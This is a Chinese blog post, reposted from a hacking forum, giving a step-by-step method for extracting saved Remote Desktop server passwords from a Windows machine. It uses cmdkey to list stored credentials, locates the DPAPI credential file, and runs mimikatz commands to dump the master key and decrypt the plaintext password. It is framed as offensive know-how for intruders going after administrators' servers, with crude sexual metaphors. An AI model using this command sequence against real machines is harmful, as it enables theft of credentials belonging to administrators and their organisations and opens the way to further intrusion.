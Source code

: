 ```yaml
---
layout: post
title: 破解远程终端凭据，获取服务器密码
subtitle: 2017/10/20
date: 2017-10-20
author: FR
header-img:
catalog: true
tags:
    - windows
    - crack
    - password
---
```

# 破解远程终端凭据，获取服务器密码
- **原文转自T00ls.net [【原文链接】](https://www.t00ls.net/articles-41926.html)**

测试环境：windows 10

道友们应该碰到过管理在本地保存远程终端的凭据，凭据里躺着诱人的胴体(服务器密码)，早已让我们的大棒饥渴难耐了。
但是，胴体却裹了一身道袍(加密)，待老衲操起法器将其宽衣解带。

![img/2017-10-20/pjyczdpjhqfwqmm_01.png](https://www.t00ls.net/attachments/month_1710/1710010133df4eed0bc854ab65.png)

## 0x01 凭据管理器中查看Windows凭据：TERMSRV/1xx.xxx.xxx.xx2

![img/2017-10-20/pjyczdpjhqfwqmm_02.png](https://www.t00ls.net/attachments/month_1710/1710010133cc76caaa81644803.png)

可通过命令行获取，执行: cmdkey /list
>注意:该命令务必在Session会话下执行，system下执行无结果。

## 0x02 凭据存储在用户目录下

C:\Users\<username>\AppData\Local\Microsoft\Credentials\*，图中名为"FF359429D6F19C64BA7D3E282558EEB5"的文件即为目标凭据:TERMSRV/1xx.xxx.xxx.xx2的存储文件

![img/2017-10-20/pjyczdpjhqfwqmm_03.png](https://www.t00ls.net/attachments/month_1710/1710010133de85b4d2e02de9b4.png)

## 0x03 执行

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5"`

![img/2017-10-20/pjyczdpjhqfwqmm_04.png](https://www.t00ls.net/attachments/month_1710/1710010133f73326447a780849.png)

pbData是凭据的加密数据，guidMasterKey是凭据的GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}。

## 0x04 执行

`mimikatz privilege::debug sekurlsa::dpapi`

![img/2017-10-20/pjyczdpjhqfwqmm_05.png](https://www.t00ls.net/attachments/month_1710/17100101335e46e0e11d5639b9.png)

根据目标凭据GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}找到其关联的MasterKey，这个MasterKey就是加密凭据的密钥，即解密pbData所必须的东西。

## 0x05 拿到了MasterKey,服务器密码便唾手可得。执行解密命令

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5 /masterkey:28d1f3252c019f9cxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx16dcec8e5dbf5cd0"`

![img/2017-10-20/pjyczdpjhqfwqmm_06.png](https://www.t00ls.net/attachments/month_1710/1710010133a0bde34b6ad38f6f.png)

解密出来的CredentialBlob即为凭据TERMSRV/1xx.xxx.xxx.xx2的服务器密码。

衣带渐宽终不悔，为伊消得人憔悴。阿弥陀佛。

## 参考:
http://www.freebuf.com/articles/network/146460.html
